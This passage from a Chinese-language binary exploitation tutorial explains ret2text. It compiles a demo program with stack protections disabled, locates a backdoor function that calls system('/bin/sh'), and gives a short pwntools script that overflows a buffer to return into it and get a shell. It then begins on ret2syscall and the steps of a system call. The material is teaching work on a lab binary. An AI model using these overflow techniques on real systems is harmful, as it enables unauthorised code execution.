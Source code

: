 ```bash
编译命令：gcc -o text -z noexecstack -fno-stack-protector -no-pie -z lazy demo.c
```

编译后调试或者用 ida 反编译工具查看其后门函数地址即可

例如此处在 ida 中观察到其地址为 0x4011c5

```bash
.text:00000000004011BD                               ; __unwind {
.text:00000000004011BD F3 0F 1E FA                   endbr64
.text:00000000004011C1 55                            push    rbp
.text:00000000004011C2 48 89 E5                      mov     rbp, rsp
.text:00000000004011C5 48 8D 3D 38 0E 00 00          lea     rdi, command                    ; "/bin/sh"
.text:00000000004011CC E8 9F FE FF FF                call    _system
.text:00000000004011CC
```

那么接下来用上面的 payload 构造模版即可

通过运行程序输入或者通过脚本输入即可运行后门函数中的 shell

脚本

```bash
from pwn import*

io = process('./text')
payload = b'a'*(0x10+8)+p64(0x4011c5)
io.sendline(payload)
io.interactive()
```

## 2.ret2syscall

ret2syscall 和 ret2text 的攻击方式基本相同，通过在程序中寻找系统调用函数 syscall 代码等来构造出一个后门危险函数

### syscall：系统调用

常见的系统调用汇编码和系统调用号

[系统调用号\_linux 64 位系统调用号-CSDN 博客](https://blog.csdn.net/winter2121/article/details/119845443)

```bash
int 0x80;//32 位
syscall;//64 位
```

系统调用的基本过程

系统调用过程涉及以下几个步骤：[系统调用过程](https://answer.baidu.com/answer/land?params=ttTnGaZyd4Feyh2LbMnEJHHHkBIbIQ6ui5V5RcLcWpsy9Rj5ZPs2cK3txnUftxLnSQRYt9AD9%2BR%2ByYwmcnGZ6yYLYCV7VlV1yxpoxgImiBR013eYvDD%2FPvmFCa6DflJCaFH%2BsH3FBmAXF3VLggh9zs82B7a0LCTDs2MWotlrsfqhp6GdAaVkmxaK6XQgDGLt&from=dqa&lid=9b658aae005805ec&word=%E7%B3%BB%E7%BB%9F%E8%B0%83%E7%94%A8%E8%BF%87%E7%A8%8B)

1.  用户程序发出系统调用请求：用户程序通过编程语言提供的系统调用接口（如 C 语言中的库函数）发出系统调用请求，请求操作系统执行某种特定的操作。
2.  权限检查：操作系统接收到用户程序的请求后，会进行权限检查，以确保用户程序有权限执行该系统调用。
3.  切换到内核态：如果权限检查通过，操作系统会将用户程序的上下文切换到内核模式，以便执行操作系统提供的服务。
4.  参数传递和准备工作：在内核态中，操作系统会获取用户程序提供的系统调用参数，并做好相应的准备工作，例如分配内存空间
5.  执行系统调用：操作系统执行用户程序请求的系统调用功能，这可能包括打开或关闭文件、创建或终止进程、进行内存管理等各种操作。
6.  返回结果和错误处理：系统调用执行完毕后，操作系统会将执行结果返回给用户程序，并进行相应的错误处理，例如返回错误码或打印错误信息等。
7.  切换回用户态：操作系统完成系统调用操作后，将会切换回用户态，继续执行用户程序的下一条指令。
